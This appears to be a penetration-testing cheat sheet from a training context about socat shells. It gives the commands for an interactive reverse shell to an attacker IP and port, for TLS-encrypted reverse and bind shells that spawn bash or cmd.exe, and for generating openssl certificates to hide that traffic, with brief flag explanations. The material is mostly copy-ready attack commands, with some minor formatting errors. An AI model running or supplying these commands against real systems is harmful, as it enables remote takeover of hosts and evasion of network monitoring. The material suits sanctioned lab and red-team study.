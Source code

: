 Fixing terminal size
```bash
stty size
stty -rows 48 -columns 120
```

### SPECIAL upload precompiled socat binary 
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
1. pty, allocates a pseudoterminal on the target -- part of the stabilisation process
1. stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
1. sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
1. setsid, creates the process in a new session
1. sane, stabilises the terminal, attempting to "normalise" it

### ENCRYPTING SHELLS
 
Generate a Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
```
req indicates that this is a certificate signing request. 
-x509 specifies that we want an X.509 certificate
-newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size(Optional sizes!) being 4096 bits. 
-days 365 shows that the validity of our certificate will be one year
-subj sets data, such as organization and country, via the command-line.
-nodes simplifies our command and does not encrypt the private key
-keyout `PRIVATE\_KEY` specifies the filename where we want to save our private key
-out CERTIFICATE specifies the filename to which we want to write the certificate request

Merge the two files:
```bash
cat shell.key shell.crt > shell.pem
```
Setup reverse shell listener
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - # verify=0 means dont bother trying to validate cert
```
The same for bind shell
```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash # For windows after:" ,verify=0 EXEC='cmd.exe' "
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```bash
Socat listener and conection on windows
```bash
socat.exe -d OPENSSL-LISTEN:5678,cert=<cert>, verify=0 STDOUT, bind=127.0.0.1
socat.exe OPENSSL:127.0.0.1:5678, verify=0 EXEC=’cmd.exe
```
